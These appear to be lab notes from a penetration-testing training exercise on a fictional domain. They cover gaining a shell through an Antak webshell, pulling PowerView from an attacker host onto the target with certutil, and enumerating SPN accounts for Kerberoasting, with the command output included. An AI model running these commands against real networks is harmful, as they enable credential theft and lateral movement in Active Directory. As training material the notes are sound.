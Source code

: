 # Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

## Step 1: [[Antak Webshell]]
- Getting a reverse shell
## Step 2: Transfer [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to the WEB01 machine

### Download and Host PowerView from the attacker machine

```
wget -q https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 

python3 -m http.server PWNPO
```

### Download PowerView back on the Antak Webserver (target)
```bash
shell

cd C:\

certutil.exe -f -urlcache -split http://10.10.14.167:8000/PowerView.ps1 PowerView.ps1

```

## Kerberoast an account with the SPN with PowerView
```bash
powershell

Import-Module .\PowerView.ps1

Get-DomainUser * -SPN | select samaccountname

samaccountname
--------------
azureconnect  
backupjob     
krbtgt        
sqltest       
sqlqa         
sqldev        
svc_sql       
sqlprod
```